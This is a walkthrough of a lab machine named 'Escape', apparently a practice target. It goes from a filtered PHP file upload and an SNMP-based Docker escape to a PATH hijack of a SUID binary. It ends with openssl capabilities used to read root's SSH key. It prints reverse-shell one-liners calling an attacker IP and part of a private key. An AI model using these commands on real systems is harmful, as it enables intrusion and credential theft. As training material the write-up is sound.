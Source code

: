 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.113
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 16:01 +08
Nmap scan report for 192.168.157.113
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Web Enumeration --> File Upload

Visiting both the websites shows nothing. The page source just shows this:

```markup
<html>
<head>

<style type="text/css">
 <!--
 body {
  background-image: url(jail.jpg);
 }
 -->
</style>

<title>Escape</title>
</head>
<body>
</body>
</html>
```

I ran a `feroxbuster` on both, and found a `/dev` endpoint on port 8080.

```
$ feroxbuster -u http://192.168.157.113:8080
[>-------------------] - 2s        89/30000   42/s    http://192.168.157.113:8080/dev 
[--------------------] - 0s         0/30000   0/s     http://192.168.157.113:8080/dev/uploads
```

<figure><img src="../../../.gitbook/assets/image (3736).png" alt=""><figcaption></figcaption></figure>

This was a PHP page, so uploading PHP reverse shells is the priority, and there's a pretty good WAF. I tested loads of method of bypassing it, and this machine requires a combination of quite a few.&#x20;

<figure><img src="../../../.gitbook/assets/image (3731).png" alt=""><figcaption></figcaption></figure>

* File Header Spoofing
* Double File Extension
* Content-Type Spoofing

We can get a reverse shell by loading the uploaded file:

<figure><img src="../../../.gitbook/assets/image (2855).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SNMP --> Docker Escape

We spawned in a Docker container. The `/var/backups` folder contained a `.conf` file for SNMP:

```
www-data@a7c367c2113d:/var/backups$ ls -la
total 20
drwxr-xr-x 1 root root 4096 Dec 21  2020 .
drwxr-xr-x 1 root root 4096 Nov 18  2020 ..
-rwxr--r-- 1 root root 7340 Dec  9  2020 .snmpd.conf
```

Here are the interesting bits:

```
###############################################################################
#
#  ACCESS CONTROL
#

                                                 #  system + hrSystem groups only
view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1

                                                 #  Full access from the local host
#rocommunity public  localhost
                                                 #  Default access to basic system info
 rocommunity public  default    -V systemonly
                                                 #  rocommunity6 is for IPv6
 rocommunity6 public  default   -V systemonly

 rocommunity 53cur3M0NiT0riNg
 
<TRUNCATED>
 extend    test1   /bin/echo  Hello, world!
 extend-sh test2   echo Hello, world! ; echo Hi there ; exit 35
 extend-sh test3   /bin/sh /tmp/shtest
<TRUNCATED>
```

Firstly, we have the password string required. Next, we have some sort of script execution within the machine. We can put a reverse shell there instead.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.227 21 >/tmp/f
```

Then, transfer this using `curl` and `chmod 777` it. To execute the shell, run this:

```bash
$ snmpbulkwalk -c 53cur3M0NiT0riNg -v2c 192.168.157.113 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

<figure><img src="../../../.gitbook/assets/image (3465).png" alt=""><figcaption></figcaption></figure>

### LogRotate SUID --> PATH Hijack

I checked for SUID binaries present within this machine:

```
Debian-snmp@escape:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/logconsole
```

`logconsole` was the one I didn't recognise.&#x20;

```
Debian-snmp@escape:/$ file /usr/bin/logconsole                                               
/usr/bin/logconsole: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d3102ed1d950486fed01c5ad8915511a12aea52d, for GNU/Linux 3.2.0, not stripped                                             
Debian-snmp@escape:/$ /usr/bin/logconsole --version                                          
                                                                                             
                                                                                             
 /$$                                                                       /$$               
| $$                                                                      | $$               
| $$  /$$$$$$   /$$$$$$   /$$$$$$$  /$$$$$$  /$$$$$$$   /$$$$$$$  /$$$$$$ | $$  /$$$$$$      
| $$ /$$__  $$ /$$__  $$ /$$_____/ /$$__  $$| $$__  $$ /$$_____/ /$$__  $$| $$ /$$__  $$     
| $$| $$  \ $$| $$  \ $$| $$      | $$  \ $$| $$  \ $$|  $$$$$$ | $$  \ $$| $$| $$$$$$$$     
| $$| $$  | $$| $$  | $$| $$      | $$  | $$| $$  | $$ \____  $$| $$  | $$| $$| $$_____/     
| $$|  $$$$$$/|  $$$$$$$|  $$$$$$$|  $$$$$$/| $$  | $$ /$$$$$$$/|  $$$$$$/| $$|  $$$$$$$     
|__/ \______/  \____  $$ \_______/ \______/ |__/  |__/|_______/  \______/ |__/ \_______/     
               /$$  \ $$                                                                     
              |  $$$$$$/                                                                     
               \______/                                                                      
                                                                                             
                                                                                                                                                                                          
1. About the Sytem                                                                           
2. Current Process Status                                                                    
3. List all the Users Logged in and out                                                      
4. Quick summary of User Logged in                                                           
5. IP Routing Table                                                                          
6. CPU Information                                                                           
7. To Exit                                                                                   
99. Generate the Report                                                                      
                                                                                             
Enter the option ==> 
```

It seems like a custom binary. As such, I ran it through `ltrace` to see what it was executing with each option.

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 02                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("/bin/ps aux"USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  0.8 159660  8976 ?        Ss   03:58   0:01 /sbin/init
```

it's executing `system` calls for each option. When I checked the last option, it runs `lscpu` without the full path:

```
__isoc99_scanf(0x56520b53f5c6, 0x7ffe428ae678, 0x7f317a52b8c0, 06                            
) = 1                                                                                        
printf("\033[0m")                                = 4                                         
putchar(10, 0x7ffe428abfd0, 0x56520b53f650, 0
)   = 10
system("lscpu"Architecture:        x86_64
```

This means we can create our own `lscpu` binary to run.&#x20;

```
$ cat lscpu 
bash -c 'bash -i >& /dev/tcp/192.168.45.227/443 0>&1'
```

Then, place this within `/tmp` and `chmod 777` it. Afterwards, change the PATH variable and run the `logconsole` binary to check for CPU information.

```bash
export PATH=/tmp:$PATH
```

<figure><img src="../../../.gitbook/assets/image (3579).png" alt=""><figcaption></figcaption></figure>

### OpenSSL --> File Read

Within the `/opt` directory, there's an `openssl` binary that only `tom` can execute:

```
tom@escape:/opt/cert$ ls -la
total 724
drwxr-xr-x 2 root root   4096 Dec  9  2020 .
drwxr-xr-x 4 root root   4096 Dec  9  2020 ..
-rwx------ 1 root root   1245 Dec  9  2020 certificate.pem
-rwx------ 1 root root   1704 Dec  9  2020 key.pem
-rwxr-x--- 1 tom  tom  723944 Dec  9  2020 openssl
```

We are also given some certs and keys. I first checked this `openssl` binary using `getcap`, finding that it has all capabilities enabled, meaning that we can read any file:

```
tom@escape:/dev/shm$ getcap /opt/cert/openssl
/opt/cert/openssl =ep
```

We can then use this to read the private SSH key of `root`:

```
tom@escape:/dev/shm$ /opt/cert/openssl enc -in "/root/.ssh/id_rsa"
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwwvvVIS3//uz+Mpg24l51p48akveZgI8bDQDun7y9BKhRDWg
GzIzCpt7NcVWVN2llo9KOL3c3EZZxGOaTbzpINZxSWj3/WWBYhNqmKQRsgJzbPv2
kOe/XwWw8Bt9TuFAd7GUbylpbyHOES7siXFUd/XP503ehllp/JFp0G+2YPkYPGbi
0EISJcNFPNnRlXIQs3Fte0QqFiPE9nPycSMqvGz8a9OtaPGlmOZ3wP56jxxIBT0I
SrkfuLGw7b9VN05jJ33EMtDGRyyDLljFXv7t5OktkC0omumXyWG2KRRe3Avn4RMI
<TRUNCATED>
```

<figure><img src="../../../.gitbook/assets/image (1292).png" alt=""><figcaption></figcaption></figure>
